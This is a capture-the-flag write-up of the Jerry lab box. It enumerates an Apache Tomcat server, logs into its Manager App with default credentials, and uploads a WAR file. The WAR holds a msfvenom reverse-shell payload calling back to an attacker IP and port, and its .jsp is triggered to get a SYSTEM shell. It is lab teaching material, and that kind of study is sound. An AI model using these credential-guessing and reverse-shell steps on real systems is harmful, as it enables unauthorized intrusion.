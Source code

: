 # Jerry

# Enumeration

## Nmap

I start running a simple nmap scan.

```bash
nmap -sC -sV -Pn jerry.htb > nmap.txt
```

The scan shows only port 8080 open, running Apache Tomcat.

![Untitled](POC/nmap.png)

Since there’s only one place to go, I’ll see what I can find.

## Website

This looks like a default page for Apache Tomcat. Theres a few things I can click on, but the one that sticks out the most is the Manager App.

![Untitled](POC/website.png)

When I try to click on the Manager App button, I am prompted for login. Because this is a default page, my immediate thought is to try some default credentials. Googling default credentials for Tomcat returns [this](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) handy list of credentials.

After trying a few of the basic combinations (admin:password, admin:admin, root:root), i decide to try tomcat:s3cret, which lets me in!

![Untitled](POC/admin_console.png)

Although I got lucky with trying this combination from the list of 29 combinations, I later realized that the credentials were much easier to find. By closing the login screen, this window will pop up:

![Untitled](POC/default_creds.png)

The example credentials that are given are tomcat:s3cret, which I believe was how the creator intended users to find the credentials, rather than brute forcing it. Regardless, I’m in and will now look around a bit more.

## Manager App

The first thing that catches my eye in this Manager App is the section to upload a file

![Untitled](POC/upload.png)

Because I’m not sure what a WAR file is, it’s time to do some googling! This [wikipedia](https://en.wikipedia.org/wiki/WAR_(file_format)#:~:text=In%20software%20engineering%2C%20a%20WAR,that%20together%20constitute%20a%20web) page reveals that a WAR (Web Application Resource) file is a file used to distribute various resources needed to run a web application. These files can contain Java code, which is all I needed to hear!

# Exploitation

## WAR Payload

A bit more research shows that I can craft a payload in msfvenom formatted as a war file! Ill specify that I want a windows reverse shell, because this is a windows box, along with the ip and port to send the shell to. Using `-f` I can then tell msfvenom to format this payload as a war file.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f war > rev.war
```

I send the full command to msfvenom and get my file outputted as `rev.war`!

![Untitled](POC/msfvenom.png)

Once I upload the file, it shows up in the dashboard and it’s ready to go!

![Untitled](POC/uploaded.png)

## Reverse Shell

I’ll set up a netcat listner over port 1234 and try to run the file by clicking on the file. When I try clicking on the file, I am greeted with a 404 Status Error page.

![Untitled](POC/404.png)

After a bit of troubleshooting, I discover that this is because i formatted my reverse shell as a windows payload, formatted as a WAR file. What I should have done is was used a java payload instead. Because I used a windows payload, it gets converted to a `.jsp` (Java Service Page) and then formatted as a WAR file, so when the file is launched the system doesn’t know to launch the `.jsp`. What I need to do is find the name of the `.jsp` file so I can specify that in the URL.

This can be done by running the `jar` command against the payload, with the `-ft` commands. `-f` specifies the file, and `-t` will list the table of contents for the file.

![Untitled](POC/jar.png)

Now that I know the file name, I can add this to the end of the URL to execute the payload and get the reverse shell back to my machine.

![Untitled](POC/url_update.png)

I run a whoami to find that I have a system shell!

![Untitled](POC/system.png)

## Flags

There is a folder on the administrator desktop named flags, which contains one file that has both flags!

![Untitled](POC/flags.png)
